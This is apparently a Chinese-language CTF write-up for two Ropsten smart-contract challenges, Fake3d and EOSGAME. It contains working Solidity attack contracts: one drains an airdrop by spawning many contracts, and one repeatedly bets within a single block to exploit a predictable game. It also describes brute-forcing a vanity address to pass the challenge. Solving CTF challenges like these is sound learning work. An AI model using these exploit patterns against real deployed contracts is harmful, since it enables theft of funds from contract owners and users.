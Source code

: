 # Fake3d
题目地址：0xd229628fd201a391cf0c4ae6169133c1ed93d00a @ ropsten
薅羊毛攻击：
```js
contract father {
    function father() payable {}
    Son son;
    function attack(uint256 times) public {
        for(uint i=0;i<times;i++){
            son = new Son();
        }
    }
    function () payable {
    }
}

contract Son {

    function Son() payable {
        Fake3D f3d;
        f3d=Fake3D(0x4082cC8839242Ff5ee9c67f6D05C4e497f63361a);
        f3d.airDrop();
        if (f3d.balance(this)>=10)
        {
            f3d.transfer(0x4ecdDBF5C4aDBEE2d42bf9840183506Cf27c6D3f,10);
        }
        selfdestruct(0x4ecdDBF5C4aDBEE2d42bf9840183506Cf27c6D3f);
    }
    function () payable{
    }
}
```
攻击完成后，提取flag时发现不对劲，有问题，怀疑winnerlist合约不对，找到了该合约真正的地址，并继续逆向：
https://ethervm.io/decompile?address=0xd229628fd201a391cf0c4ae6169133c1ed93d00a&network=ropsten
简单来说，还需要满足用户的地址最后为0x43或倒数2位为0xb1. 用https://vanity-eth.tk/
爆破，得到地址，转账，获取flag。

# EOSGAME
题目地址：0x804d8B0f43C57b5Ba940c1d1132d03f1da83631F @ ropsten

赌博游戏，赌就行了，写个攻击合约在一个block里面多赌几次。20%中100倍奖励，很划算
```js
contract EOSGame_exp{
    EOSGame eosgame;
    
    constructor() public{
        eosgame=EOSGame(0x804d8B0f43C57b5Ba940c1d1132d03f1da83631F);
    }
    
    function init() public{
        eosgame.initFund();
    }
    
    function small(uint times) public{
        for(uint i = 0; i < times; i++) {
            eosgame.smallBlind();
        }
    }
    
    function big(uint times) public{
        for(uint i = 0; i < times; i++) {
            eosgame.bigBlind();
        }
    }
    
    function bof() public view returns(uint256){
        return eosgame.eosBlanceOf();
    }
    
    function flag(string b64email) public{
        eosgame.CaptureTheFlag(b64email);
    }
}
```